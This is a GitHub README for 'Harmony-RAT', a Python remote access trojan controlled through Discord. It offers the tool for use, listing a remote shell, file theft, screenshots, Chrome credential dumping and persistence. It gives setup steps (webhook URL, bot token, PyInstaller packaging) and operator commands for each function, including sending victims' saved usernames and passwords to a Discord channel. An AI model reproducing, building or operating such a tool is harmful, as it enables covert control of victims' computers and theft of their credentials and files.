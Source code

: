 # Harmony-RAT
A simple RAT written in Python that uses Discord as it's C2 server.  


**Features**  
- Full Shell  
- Download files  
- Upload files  
- Screenshot    
- Screenshot all open windows  
- Dump credentials stored in Chrome  
- Persistence  
- And more...


# Usage  
**You have to enter your Discord servers:**  
* Webhook URL
* Bot Token  
* ServerID  
* executable filename

**Into the script around line 20.**

**If you want an EXE use PyInstaller with harmony.py**  
___
Once harmony is executed it will create a new category on your server named with the hardware ID of the computer that executed it.  


3 channels will also be created in that category:  
&emsp;-main: Use this channel to send commands to the victim computer.  
&emsp;-info: On first run the script will dump useful system information in here.  
&emsp;-creds: On first run the script will dump URL, username and password saved in chrome into here.  

# Commands  

**Commands are used in the main channel in the target category**

To send shell commands prefix the command with '>'.  
&emsp;EX:  
```
> tasklist
# Execute command 'tasklist' and return list of running tasks.

> dir c:\Users\bob\Downloads
# Execute command 'dir c:\Users\bob\Downloads' and return list of files in bobs download directory.
```  
---  
**Non shell commands dont need the '>' symbol**  

---  
**kill**  
Kills process specified by pid.  

EX:  
```
kill 2654
```

---
**hide**  
Adds the hidden attribute to the harmony file.  

**unhide**  
Removes the hidden attribute from the harmony file.  

EX:
```
hide
```
```
unhide
```

---
**download**
Uploads file specified by path to server.

EX:
```
download c:\Users\bob\Downloads\nuclearlaunchcodes.txt
```

---
**upload**
Downloads a file and saves it to c:\Users\Public\Downloads\

type upload and then drag the file you want to upload into discord and send the command.

EX:
![](https://github.com/EvanJosephL/Harmony-RAT/blob/main/pngs/upload_example.gif)  

----
**screenshot**  
Takes a screenshot and uploads it to the server.  

EX:
```
screenshot

# or

ss
```

---
**focusScreenshot**  
Attempts to take a screenshot of all open windows.  

EX:
```
focusScreenshot

# or

fss
```

---
**listWindows**
Lists all open windows.  

EX:
```
listWindows

# or

lw
```

---
**credDump**
Dumps all creds saved in Chrome.

EX:
```
credDump

# or

cred
```

---
**persistence**
Attempts to add persistence

EX:
```
persistence

# or

pt
```
